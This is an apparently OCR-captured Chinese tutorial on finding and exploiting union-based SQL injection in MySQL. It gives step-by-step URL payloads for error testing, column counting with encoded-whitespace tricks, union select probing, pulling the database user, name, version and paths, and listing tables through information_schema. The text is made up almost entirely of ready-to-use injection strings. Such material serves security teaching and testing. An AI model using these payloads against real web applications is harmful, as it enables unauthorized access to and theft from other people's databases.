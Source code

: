 # 查找SQL注入漏洞

## Union注入

以MySQL注入为例

**1、在参数后添加引号尝试报错，并用`and 1=1#`和`and 1=2#`测试报错**

```sql
?id=1' and 1=1#		页面返回正常
?id=1' and 1=2#		页面返回不正常
```

**2、利用`order by`猜测字段**

```sql
?id=1%27%20order%0aby%0c2%23	--返回正常
--上边用%0a和%0c的URL编码可以代替空格，到数据库后就是空格的意思
?id=1%27 order by 3#			--返回正常
?id=1%27 order by 4#			--返回正常
?id=1%27 order by 5#			--返回错误

--这就证明字段总数为4
```

**3、利用union联合查询**

```sql
?id=-1%27 union select 1,2,3,4#		--看哪个字段可以显示信息，利用它获取数据库信息
--修改id为一个不存在的id，强行报错
--因为代码默认只返回第一条结果，不会返回 union select 的结果
```

**4、获取数据库信息**

```sql
id=-1%27 union select 1,2,3,CONCAT_WS(CHAR(32,58,32),user(),database(),version())#

user()		--获取数据库用户名
database()	--获取数据库名
version()	--获取数据库版本信息
concat_ws(separator,str1,str2,...)	--含有分隔符地连接字符串 
--里边这的separator分隔符，用 char() 函数把 空格:空格 的ASCII码输出

--其它信息
@@datadir				--数据库路径
@@version_compile_os	--操作系统版本
```

**5、查询数据库的表**

```sql
id=-1%27 union select 1,2,3,table_name from information_schema.tables where table_schema='sqli' limit 0,1#

--table_schema=数据库名16进制或者用单引号括起来
--改变limit 0,1中前一个参数，得到所有表
```
